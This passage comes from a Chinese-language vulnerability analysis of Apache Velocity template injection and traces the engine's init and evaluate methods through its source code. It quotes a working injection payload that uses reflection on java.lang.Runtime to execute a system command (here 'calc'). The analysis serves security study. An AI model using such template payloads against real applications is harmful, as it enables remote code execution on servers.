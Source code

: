 ### 3.5 简单分析

根据测试程序，首先会进入Velocity类的init方法

```plain
public static void init() {
    RuntimeSingleton.init();
}
```

在该方法中，会调用RuntimeSingleton类的init方法，这个方法主要是对模板引擎的初始化，比如设置属性、初始化日志系统、资源管理器、指令等  
接下来回到主程序中，实例化VelocityContext，并将三对键值对put进去，之后调用Velocity类的evaluate方法  
此时templateString的值为

```plain
Hello, #set($e="e")
$e.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec("cmd /C calc") | Full name: $name, phone: $phone, email: $email
```

```plain
public static boolean evaluate(Context context, Writer out, String logTag, String instring) throws ParseErrorException, MethodInvocationException, ResourceNotFoundException {
    return RuntimeSingleton.getRuntimeServices().evaluate(context, out, logTag, instring);
}
```

直接进入了RuntimeInstance的evaluate方法

```plain
public boolean evaluate(Context context, Writer out, String logTag, String instring) {
    return this.evaluate(context, out, logTag, (Reader)(new StringReader(instring)));
}
```

进入重载的evaluate方法  
[![](assets/1701606782-57fcde55f2fa4a96102d6ff0bf29f98f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231103172953-8b649cec-7a2b-1.png)  
这个方法会调用RuntimeInstance类的parse方法进行解析  
经过两重调用来到org\\apache\\velocity\\runtime\\parser\\Parser.class的parse方法
